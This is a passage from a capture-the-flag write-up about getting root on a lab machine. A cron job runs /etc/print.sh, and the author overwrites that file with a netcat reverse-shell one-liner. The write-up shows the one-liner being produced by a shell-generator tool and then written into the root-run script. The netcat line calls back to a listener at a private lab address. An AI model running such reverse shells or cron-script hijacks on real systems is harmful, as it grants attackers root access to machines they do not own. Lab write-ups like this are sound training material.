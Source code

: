 ## Privilege Escalation

> Now , I have a File Crontab (Crontab allows system administrators and users to define commands or scripts to run periodically, such as backups, log cleanups, or system monitoring scripts.)

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

> lets generate a revrshell mfikto for access root :
```bash

    _____             _           _____ _          _ _ 
    |  __ \           | |         / ____| |        | | |
    | |  | | __ _ _ __| | _______| (___ | |__   ___| | |
    | |  | |/ _` | '__| |/ /______\___ \| '_ \ / _ \ | |
    | |__| | (_| | |  |   <       ____) | | | |  __/ | |
    |_____/ \__,_|_|  |_|\_\     |_____/|_| |_|\___|_|_|     

Drink Coffe, Enjoy Generate Shell                  by 0xPwn1 - V1.2                                                                                                 

Enter IP or Name-Interface: tun0
[~] Enter Your PORT: 9999
[~] Enter Name File (Without Extension): Root
  ~) - Bash          ~) - Mfikto
  ~) - Perl          ~) - Perl-No-Sh
  ~) - Php           ~) - Rustcat
  ~) - Python        ~) - Netcat
  ~) - Powershell    ~) - Ruby
  ~) - Java          ~) - Groovy
  ~) - Awk           ~) - Nodejs


Choose Your Language: Mfikto
The modified file has been saved as Root.sh
➜  CTF-Writeups batcat Root.sh 
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: Root.sh
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.*.*.* 9999 >/tmp/f
───────┴─────────────────────────────────────────────────────────────────────────────────
```

- Now Print This Command :
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.102.133 9999 >/tmp/f
" > /etc/print.sh
```
